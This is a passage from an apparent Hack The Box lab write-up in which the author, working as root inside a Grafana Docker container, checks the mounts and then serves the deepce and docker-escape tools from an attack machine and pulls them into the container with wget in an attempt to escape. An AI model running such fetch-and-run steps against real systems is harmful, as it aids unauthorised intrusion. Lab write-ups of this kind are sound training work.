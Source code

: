 ```a
cgroup /sys/fs/cgroup cgroup2 ro,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot 0 0  
mqueue /dev/mqueue mqueue rw,nosuid,nodev,noexec,relatime 0 0  
shm /dev/shm tmpfs rw,nosuid,nodev,noexec,relatime,size=65536k,inode64 0 0  
/dev/mapper/ubuntu--vg-ubuntu--lv /etc/resolv.conf ext4 rw,relatime 0 0  
/dev/mapper/ubuntu--vg-ubuntu--lv /etc/hostname ext4 rw,relatime 0 0  
/dev/mapper/ubuntu--vg-ubuntu--lv /etc/hosts ext4 rw,relatime 0 0  
/dev/mapper/ubuntu--vg-ubuntu--lv /var/lib/grafana ext4 rw,relatime 0 0  
proc /proc/bus proc ro,nosuid,nodev,noexec,relatime 0 0  
proc /proc/fs proc ro,nosuid,nodev,noexec,relatime 0 0  
proc /proc/irq proc ro,nosuid,nodev,noexec,relatime 0 0  
proc /proc/sys proc ro,nosuid,nodev,noexec,relatime 0 0  
proc /proc/sysrq-trigger proc ro,nosuid,nodev,noexec,relatime 0 0  
tmpfs /proc/acpi tmpfs ro,relatime,inode64 0 0  
tmpfs /proc/kcore tmpfs rw,nosuid,size=65536k,mode=755,inode64 0 0  
tmpfs /proc/keys tmpfs rw,nosuid,size=65536k,mode=755,inode64 0 0  
tmpfs /proc/latency_stats tmpfs rw,nosuid,size=65536k,mode=755,inode64 0 0  
tmpfs /proc/timer_list tmpfs rw,nosuid,size=65536k,mode=755,inode64 0 0  
tmpfs /proc/scsi tmpfs ro,relatime,inode64 0 0  
tmpfs /sys/firmware tmpfs ro,relatime,inode64 0 0
```
- Looks like no.  Some more checks, and this all looks standard:
```a
root@7ce659d667d7:~# df -hT  
df -hT  
Filesystem                        Type     Size  Used Avail Use% Mounted on  
overlay                           overlay  6.4G  4.2G  1.9G  69% /  
tmpfs                             tmpfs     64M     0   64M   0% /dev  
shm                               tmpfs     64M     0   64M   0% /dev/shm  
/dev/mapper/ubuntu--vg-ubuntu--lv ext4     6.4G  4.2G  1.9G  69% /etc/hosts  
tmpfs                             tmpfs    928M     0  928M   0% /proc/acpi  
tmpfs                             tmpfs    928M     0  928M   0% /proc/scsi  
tmpfs                             tmpfs    928M     0  928M   0% /sys/firmware
```
### `deepce`
- Found this tool online. Let's check it out!
- Unfortunately, I can't reach `github.com` from the container. Huge issue there.
- I can download it to the attack machine, and then host it with `http.server`:
```a
[lkotlus@work] [~/Nerd/htb/planning]    
(bash)> python3 -m http.server 8888  
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
- I know that the container can reach the attack machine, so now we can `wget` with the attack machine IP:
```a
root@7ce659d667d7:~# wget http://10.10.14.173:8888/deepce.sh
wget http://10.10.14.173:8888/deepce.sh
--2025-08-07 19:26:12--  http://10.10.14.173:8888/deepce.sh
Connecting to 10.10.14.173:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39417 (38K) [application/x-sh]
Saving to: 'deepce.sh'

     0K .......... .......... .......... ........             100% 4.89M=0.008s

2025-08-07 19:26:12 (4.89 MB/s) - 'deepce.sh' saved [39417/39417]
```
- And now we just run the tool... and it doesn't find anything particularly interesting. 
### `docker-escape`
- Maybe this will work...
- Same general process, I download the binary from the releases page on GitHub and then host it with `http.server`. After that, I just use `wget` on the container to download it.
- And the script just crashes. That's rough.